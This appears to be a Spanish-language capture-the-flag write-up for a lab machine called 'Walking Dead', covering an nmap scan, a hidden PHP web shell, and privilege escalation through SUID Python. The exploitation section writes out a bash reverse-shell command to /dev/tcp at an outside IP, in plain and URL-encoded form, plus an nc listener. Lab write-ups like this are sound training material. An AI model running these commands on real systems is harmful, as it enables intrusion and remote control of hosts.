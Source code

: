 # Walking Dead
## Reconocimiento
```
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```
Comienzo el reconocimiento escaneando con `nmap` los puertos de la máquina, hay un servidor SSH y uno HTTP, así que visito la página.

![Paso 1](imgs/1.png)

Explorando el código fuente me encuentro con un link "oculto", desde las herramientas de dev cambiamos los estilos y se puede ver claramente

![Paso 2](imgs/2.png)

El enlace lleva a la ruta `/hidden/.shell.php` al visitarla veo que está vacía, haciendo fuzzing encuentro también el endpoint `/backup.txt` pero al visitarlo me da un error 403.

## Explotación
Probando con el endpoint `shell.php` me doy cuenta que al pasar `cmd` como parámetro PHP se pueden ejecutar comandos.
```
http://172.17.0.2/hidden/.shell.php?cmd=whoami
```
URLencodeo el comando `bash -c 'bash -i >& /dev/tcp/192.168.1.157/443 0>&1'` para darme una revshell, al poner la URL `172.17.0.2/hidden/.shell.php?cmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.157%2F443%200%3E%261%27` y darle a enter ya estoy dentro como `www-data` (habiéndome puesto antes en escucha con `nc -nvlp 443`).
## Post explotación
En primer lugar, sanitizo la shell

![Paso 3](imgs/3.png)

Luego, viendo que binarios tienen permisos SUID veo que Python está entre ellos, con lo cual una búsqueda en GTFObins soluciona el laboratorio

![Paso 4](imgs/4.png)